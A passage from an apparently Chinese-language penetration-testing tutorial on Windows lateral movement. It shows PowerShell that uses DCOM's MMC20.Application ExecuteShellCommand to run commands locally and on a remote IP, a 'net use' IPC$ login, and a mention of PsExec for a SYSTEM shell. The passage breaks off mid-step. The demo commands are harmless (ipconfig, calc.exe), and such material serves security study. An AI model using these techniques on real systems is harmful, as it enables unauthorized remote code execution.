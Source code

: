    选项5使用基于PsExec的方式获得目标系统的一个System权限的Shell。

### DCOM在远程系统中的使用

DCOM(分布式组件对象模型)是微软的一系列概念和程序接口。通过DCOM，客户端程序对象能够向网络中的另一台计算机上的服务器程序对象发送请求。

#### 通过本地DCOM执行命令

##### 获取DCOM程序列表

在Powershell 3.0以上可以使用`Get-CimInstance`获取：

```powershell
Get-CimInstance Win32_DCOMApplication
```

如果没有该`Cmdlet`，可以使用：

```powershell
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
```

##### 使用DCOM执行任意命令

本地启用一个管理员权限的Powershell：

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c ipconfig","Minimzed")
```

该方法通过ExecuteShellCommand运行了`ipconfig`命令，如果把该命令改成其它恶意程序就会造成威胁。

#### 使用DCOM在远程机器上执行命令

> 在使用该方法时，必须关闭系统防火墙，在远程机器上执行命令时，必须使用具有本地管理员权限的账户。

1. 建立`ipc$`连接

   ```powershell
   net use \\pc "password" /user:hackme.com\user
   ```

2. 执行命令

   1. 调用MMC20.Application

      此时通过Powershell调用：

      ```powershell
      $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.100.205"))
      $com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c calc.exe","Minimzed")
      ```

      此时一切顺利可以在目标机器看到进程，且进程用户为Dm。

   2. 调用9BA05972-F6A8-11CF-A442-00A0C90A8F39

      Powershell：
